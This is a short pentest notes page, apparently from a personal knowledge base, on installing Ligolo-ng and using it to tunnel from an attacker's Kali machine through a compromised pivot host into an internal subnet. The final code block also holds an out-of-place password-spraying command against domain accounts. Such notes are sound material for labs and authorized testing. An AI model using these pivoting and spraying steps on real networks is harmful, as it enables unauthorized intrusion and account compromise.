 ```yaml
---
title: Ligolo
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentest
  - tunelling
---
```

# Ligolo

## Installation

Requirements: go.

```
sudo apt install ligolo-ng
```


Or: 

```
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
tar -xvf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
tar -xvf ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
```

Or:

```
git clone https://github.com/nicocha30/ligolo-ng.git
cd ligolo-ng

# And finally you can compile your proxy binary:
go build -o proxy cmd/proxy/main.go
go build -o agent cmd/agent/main.go

#  change the binary in order to be executable:
chmod +x ./agent
chmod +x ./proxy
```


## Basic usage

First, we need to create a tun interface:

```
sudo ip tuntap add user lala mode tun ligolo
sudo ip link set ligolo up
```

Second, start the proxy:

```
./proxy -selfcert

```

Third, connect the agent (in the pivot machine) to our proxy in the kali:

```
./agent -connect 10.10.14.49:11601 --ignore-cert

```

Once you start the proxy, it listens on the port “11601” by default. So when you connect to your proxy, you need to specify your IP and that default port (unless other configurations are in place).

Commands in ligolo:

```
# List available sessions
session
# To enter one of them, enter the number they have.

# List interfaces:
ifconfig

# Add a route to the new interface (in a new kali terminal)
sudo ip route add 172.16.139.0/24 dev ligolo



Invoke-DomainPasswordSpray -Password '!QAZXCFGHJKOP' -OutFile spray_success -ErrorAction SilentlyContinue
```